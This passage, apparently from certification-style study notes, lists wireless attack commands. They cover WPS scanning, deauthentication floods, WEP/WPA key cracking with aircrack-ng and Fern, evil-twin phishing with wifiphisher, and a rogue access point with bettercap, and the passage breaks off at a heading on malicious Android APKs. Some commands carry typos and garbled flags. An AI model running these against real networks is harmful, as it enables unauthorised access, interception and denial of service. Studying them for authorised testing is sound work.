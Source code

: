 > Wash
- Find WiFi Networks (access points - AP) - To detect WPS-enabled devices: `wash -i interface`

> Wireshark


## <span style="color: #3498db; font-size: 0.8em;">  Crack a WEP Network</span>

>  aircrack-ng
- Puts the wireless interface into monitor mode: `airmon-ng start wlan0mon`
- List a detected access points and connected clients (stations):  `airodump-ng wlan0mon`
- List of connected clients (stations): `airodump-ng --bssid MACAddress wlan0mon`
- Generate de-authentication packets: `aireplay-ng -0 11 -a MAC-AP -c MAC-dest wlan0mon`

 >Crack a PCAP file
- `aircrack-ng file.pcap`

> Wifiphisher
- `cd wifiphisher`
- `wifiphisher --force-hostapd`
- `network manage connect`

> Airodump
- `airodump-ng wlan0mon --encrypt wep`
- `airodump-ng --dssid SSID -c channel -w Wepcrack wlan0mon`
- `aireplay-ng -0 11 -a MAC-AP -c MAC-dest wlan0mon`
- `aircrack-ng file.cap`
- `aircrack-ng -a2 Handshake -w pathWordlist file.cap`


## <span style="color: #3498db; font-size: 0.8em;">  Crack a WPA Network</span>

>  Fern Wifi Cracker
- fern-wifi-cracker > scan for access points > WPA > Select one > Browse > Select wordlist > Click wifi attack


## <span style="color: #3498db; font-size: 0.8em;">  Create a Rogue Access Point</span>

>  Create_ap
- `cd create_ap`
- `create_ap wirelessInterface interfaceInternet nameRogue`
- `sudo bettercap -X -I wirelessInterface -S NONE --proxy --no-discovery`


----

# <span style="color: #e84393; font-size: 1em;">Module 17: Hacking Mobile Platforms</span>

## <span style="color: #3498db; font-size: 0.8em;">  Hack an Android Device by Creating Binary Payloads (create malicious APK)</span>
